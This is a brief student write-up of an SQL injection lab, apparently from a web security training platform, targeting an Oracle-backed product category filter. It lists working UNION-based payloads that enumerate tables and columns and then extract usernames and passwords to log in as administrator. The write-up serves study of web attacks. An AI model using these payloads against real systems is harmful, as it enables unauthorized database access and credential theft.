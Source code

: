 # Seventh Lab : SQL Injection

Lab - 07 : SQL injection attack, listing the database contents on Oracle

SQL Injection : product category filter

Endgoal : Logging in as administrator

Analysis : 

1. SQl injection issues using ‘ → True
2. To output data from the database.
    1. Determine the number of columns
        
        ```
        Payload -> ' order by 1--
        ```
        
        ![vmplayer_TsMfQz09s3.png](Seventh%20Lab%20SQL%20Injection%2021a3c5d54c768020aff3e61a591abba7/vmplayer_TsMfQz09s3.png)
        
    2. To list the contents of the database 
        
        ```
        Payload -> ' UNION SELECT table_name, NULL FROM all_tables--
        ```
        
    3. To list the column names of the table 
        
        ```
        Payload -> ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_NNDQUD'--
        ```
        
    4. To list the usernames and passwords of the table, now that we know the name of the columns
        
        ```
        Payload -> ' UNION SELECT USERNAME_YNPHMM, PASSWORD_HLBXKQ FROM USERS_NNDQUD--
        ```
        
        ![vmplayer_GSclatC4rz.png](Seventh%20Lab%20SQL%20Injection%2021a3c5d54c768020aff3e61a591abba7/vmplayer_GSclatC4rz.png)
        
        dAMNNN, done with it